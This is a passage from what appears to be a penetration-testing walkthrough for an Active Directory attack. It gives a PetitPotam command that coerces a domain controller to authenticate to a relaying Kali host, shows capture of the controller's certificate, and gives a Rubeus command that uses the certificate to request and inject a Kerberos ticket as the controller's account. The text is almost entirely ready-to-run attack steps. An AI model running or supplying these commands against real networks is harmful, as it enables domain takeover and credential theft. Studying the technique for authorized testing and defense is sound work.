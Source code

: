 ## 2. Use PetitPotam to force authentication from a domain controller back to the relaying kali machine
```bash
python3 PetitPotam.py -d <DOMAIN_FQDN> -u <USERNAME> -p <PASSWORD> <KALI> <TARGET_DC>
```

![PetitPotam-Launched](/assets/petitpotam/PetitPotam-Launched.jpg)

## 3. Recieve the Base64 certificate for the domain controller's computer account

![got-dc2-cert](/assets/petitpotam/got-dc2-cert.jpg)

## 4. Use Rubeus on the windows machine to request a TGT for that account using the certificate

```bash
Rubeus.exe asktgt /outfile:kirbi /dc:<DOMAINCONTROLLER> /domain:<DOMAIN_FQDN> /user:<CAPTURED_DC_COMPUTER_ACCOUNT_NAME> /ptt /certificate:<CAPTURED_BASE64_CERTIFICATE>
```
